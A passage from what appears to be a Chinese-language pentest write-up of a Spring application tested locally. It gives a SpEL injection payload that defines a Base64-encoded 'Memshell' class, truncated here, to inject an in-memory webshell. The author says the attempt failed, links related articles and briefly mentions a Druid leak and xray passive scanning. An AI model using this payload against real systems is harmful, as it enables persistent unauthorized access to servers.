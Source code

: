 至于回显，可以打内存webshell，加载恶意类

```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping)}
```

但是我没打通

不过可以参考这两篇看看加载恶意类的方式

https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/#0x03-Spring%E5%B1%82%E5%86%85%E5%AD%98%E9%A9%AC

https://forum.butian.net/share/1922

开始以为是Thymeleaf版本的问题，可能是界面是500但是不渲染到页面的原因，看不到回显，可是内存马还是没注入进去

## druid泄漏

既然是在本地测，那挂着xray的被动扫描也能帮助我们测试到更多的接口

![image-20230608111308657](images/23.png)

![image-20230608124823051](images/24.png)
